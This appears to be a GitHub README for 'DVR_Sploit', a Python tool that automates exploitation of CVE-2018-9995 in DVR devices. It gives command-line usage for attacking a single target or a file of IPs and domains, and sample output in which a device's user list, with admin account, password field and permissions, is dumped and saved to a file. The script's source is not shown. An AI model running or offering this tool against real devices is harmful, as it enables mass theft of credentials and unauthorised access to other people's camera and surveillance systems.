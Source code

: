 # DVR_Sploit
Simple python3 script to automate CVE-2018-9995

![dvrsploit](https://github.com/X3RX3SSec/DVR_Sploit/assets/141476851/7668e9ee-2881-4619-8903-4350a88334c0)

Requirements: pip install -r requirements.txt

##USAGE

```bash


usage: dvrsploit.py [-h] [-f filename.txt] [-t site.com] [-p 8080]

options:
  -h, --help            show this help message and exit
  -f filename.txt, --file filename.txt
                        domains to check
  -t site.com, --target site.com
                        domain to check
  -p 80, --port 80  port number to use

# Single Target

python3 dvrsploit.py -t IP -p 80

# A list of domains

python3 dvrsploit.py -f ips.txt -p 80

```

Device list:

{"result":0,"list":[{"uid":"admin","pwd":"","role":2,"enmac":0,"mac":"00:00:00:00:00:00","playback":4294967295,"view":4294967295,"rview":4294967295,"ptz":4294967295,"backup":4294967295,"opt":4294967295}]}
Device list appended to dvr_output.txt
